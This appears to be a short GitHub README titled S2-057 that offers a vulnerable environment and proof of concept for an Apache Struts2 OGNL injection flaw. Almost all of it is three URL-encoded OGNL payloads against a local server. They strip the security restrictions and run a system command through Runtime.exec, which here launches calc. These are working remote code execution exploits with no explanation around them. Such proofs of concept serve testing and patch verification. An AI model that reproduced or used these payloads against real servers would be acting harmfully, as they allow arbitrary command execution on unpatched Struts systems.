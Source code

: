 # S2-057
S2-057 vul environment &amp; poc
poc

http://localhost:8888/$%7B(%23dm%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3d%23request['struts.valueStack'].context).(%23cr%3d%23ct['com.opensymphony.xwork2.ActionContext.container']).(%23ou%3d%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23cmd%3d%40java.lang.Runtime%40getRuntime().exec(%22calc%22))%7D/viewSource.action



http://localhost:8888/$%7B(%23dm%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3d%23request['struts.valueStack'].context).(%23cr%3d%23ct['com.opensymphony.xwork2.ActionContext.container']).(%23ct.setMemberAccess(%23dm)).(%23cmd%3d%40java.lang.Runtime%40getRuntime().exec(%22calc%22))%7D/viewSource.action


http://localhost:8888/$%7B(%23dm%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3d%23request['struts.valueStack'].context).(%23ct.setMemberAccess(%23dm)).(%23cmd%3d%40java.lang.Runtime%40getRuntime().exec(%22calc%22))%7D/viewSource.action
